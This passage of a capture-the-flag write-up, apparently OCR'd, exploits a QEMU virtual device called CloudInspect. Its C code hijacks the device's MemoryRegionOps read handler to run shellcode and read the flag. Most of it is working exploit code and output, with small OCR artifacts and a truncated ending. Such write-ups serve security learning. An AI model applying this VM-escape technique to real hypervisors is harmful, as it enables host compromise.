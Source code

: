 ```c
// Craft fake MemoryRegionOps structure by reading the original one

struct MemoryRegionOps fake_ops = {0};
printf("[*] reading struct mmio.MemoryRegionOps @ %lx\n", ops_struct);

iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, -(addr_obj - ops_struct));
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, sizeof(struct MemoryRegionOps));
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, dmabuf_phys_addr);
ioread(CLOUDINSPECT_MMIO_OFFSET_TRIGGER);

// Write it in the fake struct
memcpy(&fake_ops, dmabuf, sizeof(struct MemoryRegionOps));
fake_ops.read = (leak_rwx + 0x1000); 
// Edit the handler we want to hook to make it point to the shellcode at leak_rwx + 0x1000

printf("[*] fake_ops.read = %lx\n", leak_rwx + 0x1000);
memcpy(dmabuf, &fake_ops, sizeof(struct MemoryRegionOps));

// patch it and write it @ leak_rwx + 0x2000
iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, leak_rwx - addr_obj + 0x2000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, sizeof(struct MemoryRegionOps));
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, dmabuf_phys_addr);
iowrite(CLOUDINSPECT_MMIO_OFFSET_TRIGGER, 0x300);
```

### Hook mmio.ops + PROFIT

We just have to replace the original `CoudInspect.mmio.ops` pointer to a pointer to the `fake_ops` structure.
Then, next time we send a read request, the shellcode will be executed! And we will just need to retablish the original `CoudInspect.mmio.ops` pointer to read the flag at `leak_rwx+0x5000`! Which gives:
```c
ioread(0x37); // trigger the read handler we control, then the shellcode is 
// executed and the flag is written @ leak_rwx + 0x5000[enter link description here](cloudinspect)

printf("[*] CloudInspectState.mmio.ops.read () => jmp @ %lx\n", leak_rwx + 0x1000);

char flag[0x30] = {0};
// So we just have to read the flag @ leak_rwx + 0x5000

write_dmabuf(-0xd0, ops_struct);
printf("[*] CloudInspectState.mmio.ops = original ops\n");
printf("[*] Reading the flag @ %lx\n", leak_rwx + 0x5000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, leak_rwx - addr_obj + 0x5000);
iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 0x30);
iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, dmabuf_phys_addr);
if (!ioread(CLOUDINSPECT_MMIO_OFFSET_TRIGGER)) {
		perror("Failed to read the flag\n");
		return -1;
}

memcpy(flag, dmabuf, 0x30);
printf("flag: %s\n", flag);


// adresses are different because here is another execution on the remote challenge
/*
b'[*] CloudInspectState.mmio.ops.read () => jmp @ 7fe3dc001000\r\r\n'
b'[*] CloudInspectState.mmio.ops = original ops\r\r\n'
```